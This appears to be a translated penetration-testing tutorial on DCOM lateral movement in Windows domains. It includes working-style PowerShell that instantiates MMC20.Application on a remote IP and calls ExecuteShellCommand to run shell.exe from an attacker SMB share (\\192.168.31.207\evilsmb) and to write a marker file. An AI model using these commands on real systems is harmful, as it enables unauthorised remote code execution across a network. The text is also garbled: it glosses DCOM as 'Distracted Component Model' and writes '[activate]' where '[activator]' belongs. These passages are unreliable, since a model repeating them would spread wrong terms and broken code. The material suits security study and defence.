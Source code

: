 `COM` specifies an object model and programming requirements to enable COM objects to interact with other objects. These objects can be in a single process, in other processes, or even in remote computers.

In Windows, each COM object is identified by a unique `128` bit binary identifier, i.e. `GUID`.

- `DCOM`

`DCOM` (`Distracted Component Model`, distributed component object model) is a series of concepts and program interfaces based on `COM`, which supports communication between components on different machines. With `DCOM`, the client program object can request a server program object from another computer in the network.

## Use DCOM for horizontal movement

Some `DCOM` components expose interfaces that may contain unsafe methods. For example, the ExecuteShellCommand method provided by `MMC20.Application` can run a specified program or command in a separate process.

Execute the following command to list all the `DCOM` program components on your computer:

```powershell
Get-CimInstance Win32_DCOMApplication

# Windows 7 and Windows Server 2008 are powershell 2.0 installed by default, so they do not support Get-CimInstance
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%203.png)

Currently, the `DCOM` components that are frequently used include: `MMC20.Application`, `ShellWindows`, `Excel.Application`, `ShellBrowserWindow`, etc.

Using `DCOM` to execute commands on a remote host requires the following conditions:

1. PowerShell with administrator privileges;
2. The firewall is not enabled on the remote host;
3. When executing commands on a remote host, you must use the domain-managed Administrator account or an account with administrator privileges on the target host.

### MMC20.Application

There is an ExecuteShellCommand method under the Document.ActiveView of the `MMC20.Application` object, which can be used to start a child process and run executed programs or system commands.

```powershell
# Example of remote interaction with DCOM through progID and creating an MMC20.Application object
$com = [activate]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.137"))

# Call the ExecuteShellCommand method to start the process and run the attack payload
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.31.207\evilsmb\shell.exe", "Minimized")

# merge one sentence
[activate]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.137")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c ipconfig > C:\\Hacked.txt", "Minimized")
```
